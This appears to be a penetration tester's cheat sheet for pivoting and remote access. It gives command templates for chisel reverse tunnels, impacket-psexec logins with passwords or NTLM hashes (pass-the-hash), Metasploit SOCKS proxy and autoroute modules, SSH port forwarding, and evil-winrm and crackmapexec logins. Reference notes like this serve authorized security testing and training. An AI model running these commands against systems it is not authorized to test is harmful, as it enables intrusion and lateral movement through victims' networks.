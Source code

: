 # Tools

`chisel` Tunneling.
`impacket-psexec` Remote access.
`nc` Connections.
`proxychains` Tunneling.
`socat` Tunneling.
`ssh` Remote connections, tunneling.
`sshuttle` Tunneling.

# Chisel

Server
`chisel server -p port --reverse`

Client
`chisel client server_ip:server_port R:local_port:client_ip:client_port`

# PsExec

Using Creds
`impacket-psexec 'user:pass@ipaddress'`

Using Hash
`impacket-psexec username@ipaddress -hashes ntlmhashpart1:ntlmhashpart2`

# Socks Proxy

## Method 1

Metasploit
```
search socks
use auxiliary/server/socks_proxy
run
```

Edit attacker /etc/proxychains.conf
```
[ProxyList]
socks5 127.0.0.1 1080
```

Enable autoroute in Metasploit to automatically route all internal networks of the remote system back to us through Socks Proxy
```
search autoroute
use post/multi/manage/autoroute
set session sessionnumber
run
```

# SSH

Connect Using SSH Key
```
chmod 600 id_rsa
ssh -i id_rsa user@host
```

Local Port Forwarding
`ssh [-fNT to run in bg] -L [local_addr:]:local_port:remote_addr:remote_port [user@]gateway_addr`

Remote Port Forwarding
`ssh [-fNT to run in bg] -R [remote_addr:]remote_port:local_addr:local_port [user@]gateway_addr`

Dynamic Port Forwarding
```
ssh -D port user@target

Can configure browser proxy, e.g., FoxyProxy, for web access.

To proxychains this, edit /etc/proxychains4.conf:
socks5 127.0.0.1 port username password
```

# WinRM

Evil-WinRM
`evil-winrm -i ipaddress -u username -p password`

CrackMapExec
`crackmapexec winrm ipaddress -u username -p password`
